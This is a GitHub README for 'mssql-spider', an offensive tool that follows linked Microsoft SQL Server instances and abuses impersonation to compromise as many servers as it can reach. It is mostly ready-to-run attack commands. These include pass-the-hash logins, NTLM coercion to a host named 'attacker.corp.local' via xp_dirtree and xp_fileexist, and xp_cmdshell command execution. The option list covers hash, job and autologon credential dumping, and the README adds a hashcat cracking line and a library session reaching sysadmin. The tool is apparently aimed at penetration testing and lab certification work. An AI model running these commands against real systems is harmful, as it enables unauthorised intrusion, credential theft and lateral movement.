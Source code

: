 # mssql-spider

![Screenshot](./assets/demo.png)

An improved [impacket-mssqclient](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) that exploits user impersonation and follows linked instances to discover and compromise as many Microsoft SQL Servers as it can reach.

Big thanks to the developers of fortra/impacket#1397, [SQLRecon](https://github.com/skahwah/SQLRecon) and [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) on which this project is based.

> **Warning:** Although this project was successfully tested in the lab and solves the OSEP Challenge 2 automatically, it is still kinda work in progress.

# Setup

a) With [pipx](https://github.com/pypa/pipx).

~~~ bash
pipx install git+https://github.com/dadevel/mssql-spider.git@main
~~~

b) With [pip](https://github.com/pypa/pip).

~~~ bash
pip install --user git+https://github.com/dadevel/mssql-spider.git@main
~~~

# Usage

Authenticate as local user and enumerate recursively.

~~~ bash
mssql-spider -u jdoe -p passw0rd db01.corp.local
~~~

Authenticate as domain user via *Pass the Hash* and coerce NTLM authentication from all reachable hosts trough `xp_dirtree`.
This does not require privileged access.

~~~ bash
mssql-spider -d corp.local -u jdoe -H :b9f917853e3dbf6e6831ecce60725930 --coerce-dirtree '\\attacker.corp.local\test' ./mssql-servers.txt
~~~

Alternatively coerce NTLM with `xp_fileexist`.

~~~ bash
mssql-spider -d corp.local -u jdoe -H :b9f917853e3dbf6e6831ecce60725930 --coerce-fileexist '\\attacker.corp.local\test\test.txt' ./mssql-servers.txt
~~~

Authenticate via Kerberos and execute a command trough `xp_cmdshell` on all hosts where you can obtain sysadmin privileges.

~~~ bash
mssql-spider -k -n -x 'whoami /groups' db01.corp.local:50123 db02.corp.com:1433
~~~

Detailed help:

~~~
positional arguments:
  HOST[:PORT]|FILE

options:
  -h, --help                                              show this help message and exit
  --depth UINT                                            default: 10
  --threads UINT                                          default: based on CPU cores
  --timeout SECONDS                                       default: 5
  --debug                                                 write verbose log to stderr

authentication:
  -d DOMAIN, --domain DOMAIN                              implies -w
  -u USERNAME, --user USERNAME
  -p PASSWORD, --password PASSWORD
  -n, --no-pass                                           disable password prompt, default: false
  -H [LMHASH]:NTHASH, --hashes [LMHASH]:NTHASH            authenticate via pass the hash
  -a HEXKEY, --aes-key HEXKEY                             authenticate with Kerberos key in hex, implies -k
  -w, --windows-auth                                      use windows instead of local authentication, default: false
  -k, --kerberos                                          authenticate via Kerberos, implies -w, default: false
  -K ADDRESS, --dc-ip ADDRESS                             FQDN or IP address of a domain controller, default: value of -d
  -D NAME, --database NAME

enumeration:
  -q SQL, --query SQL                                     execute SQL statement, unprivileged, repeatable
  --sysinfo                                               retrieve database and OS version, unprivileged

coercion:
  -c UNCPATH, --coerce-dirtree UNCPATH                    coerce NTLM trough xp_dirtree(), unprivileged
  --coerce-fileexist UNCPATH                              coerce NTLM trough xp_fileexist(), unprivileged
  --coerce-openrowset UNCPATH                             coerce NTLM trough openrowset(), privileged

filesystem:
  --file-read REMOTE                                      read file trough openrowset(), privileged
  --file-write LOCAL REMOTE                               write file trough OLE automation, privileged

execution:
  -x COMMAND, --exec-cmdshell COMMAND                     execute command trough xp_cmdshell(), privileged
  --exec-ole COMMAND                                      execute blind command trough OLE automation, privileged
  --exec-job sql|cmd|powershell|jscript|vbscript COMMAND  execute blind command trough agent job, privileged, experimental!

registry:
  --reg-read HIVE KEY NAME                                read registry value, privileged, experimental!
  --reg-write HIVE KEY NAME TYPE VALUE                    write registry value, privileged, experimental!
  --reg-delete HIVE KEY NAME                              delete registry value, privileged, experimental!

credentials:
  --dump-hashes                                           extract hashes of database logins, privileged
  --dump-jobs                                             extract source code of agent jobs, privileged
  --dump-autologon                                        extract autologon credentials from registry, privileged
~~~

Dumped database password hashes can be cracked with [hashcat](https://github.com/hashcat/hashcat).

~~~ bash
hashcat -O -w 3 -a 0 -m 1731 --username ./hashes.txt ./rockyou.txt
~~~

## Usage as library

~~~
❯ python3
>>> from mssql_spider.client import MSSQLClient
>>> client = MSSQLClient.connect('192.168.118.140', 1433)
>>> client.login(username='webapp11', password='redacted', windows_auth=False)
>>> client.enum_links()
{'SQL11\\SQLEXPRESS': {'local_login': 'NULL', 'remote_login': 'NULL'}, 'SQL27': {'local_login': 'webapp11', 'remote_login': 'webappGroup'}, 'SQL53': {'local_login': 'webapp11', 'remote_login': 'testAccount'}}
>>> linked_instance = client.use_rpc_link('SQL27')
>>> linked_instance.whoami()
{'host': 'sql27', 'login': 'sa', 'user': 'dbo', 'roles': {'db_denydatareader', 'dbcreator', 'db_datareader', 'public', 'db_denydatawriter', 'db_accessadmin', 'setupadmin', 'serveradmin', 'db_backupoperator', 'diskadmin', 'bulkadmin', 'db_owner', 'securityadmin', 'sysadmin', 'db_datawriter', 'processadmin', 'db_ddladmin', 'db_securityadmin'}}
~~~
